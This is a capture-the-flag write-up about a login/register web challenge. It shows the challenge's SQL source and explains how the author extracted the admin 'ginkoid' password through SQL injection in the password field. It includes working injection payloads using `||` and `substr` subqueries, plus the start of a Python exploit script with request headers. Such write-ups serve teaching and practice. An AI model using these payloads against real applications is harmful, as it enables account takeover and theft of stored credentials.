```python
    'INSERT OR IGNORE INTO users (username, password)'
    f'VALUES (\'ginkoid\', \'{ginkoid_password}\');'
    )
    execute(
    f'UPDATE users SET password=\'{ginkoid_password}\''
    f'WHERE username=\'ginkoid\';'
    )


init()

```
The website was a simple login+register function, and after looking at the source code, it was clear that in order to get the flag, I needed to log in as the admin user 'ginkoid'. The application uses a sqlite database to hold users. The usernames are only allowed to be alphanumeric, and the passwords can be composed of any characters, as long as they are shorter than 50 characters long. I was initially at a loss for what to do, as I couldn't find a way to create an error or time-based atack with only 50 characters. However, one of my teamates found that
it was possible to set a user's password to ginkoid's password using the following payload: `'|| (SELECT password FROM users)`. This gave me an idea. If I could set the entire password as a password, I could also use only one character of ginkoid's password using the following payload `'|| substr((SELECT password FROM users),1,1)`. After this was done, I could discern the password by trying to log in using every alphanumeric character, one at at a time, as the password. The letter or number that succeeded would be the letter/number that was in the password. I made a python to exploit this technique:
```python
import requests
import numpy
url2 = "https://cool.mc.ax/register"

#payload2 = "username=dasdfasdf&password='||substr((SELECT+password+FROM+users),1,{}))--"
headers2 = {
    'Host': 'cool.mc.ax',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Content-Length': '74',
    'Origin': 'https://cool.mc.ax',
    'Connection': 'close',
    'Referer': 'https://cool.mc.ax/register',
    'Upgrade-Insecure-Requests': '1'
}
'''
import logging

# These two lines enable debugging at httplib level (requests->urllib3->http.client)
# You will see the REQUEST, including HEADERS and DATA, and RESPONSE with HEADERS but without DATA.
# The only thing missing will be the response.body which is not logged.
try:
    import http.client as http_client
except ImportError:
    # Python 2
    import httplib as http_client
http_client.HTTPConnection.debuglevel = 1

# You must initialize logging, otherwise you'll not see debug output.
logging.basicConfig()
logging.getLogger().setLevel(logging.DEBUG)
requests_log = logging.getLogger("requests.packages.urllib3")
requests_log.setLevel(logging.DEBUG)
requests_log.propagate = True
```
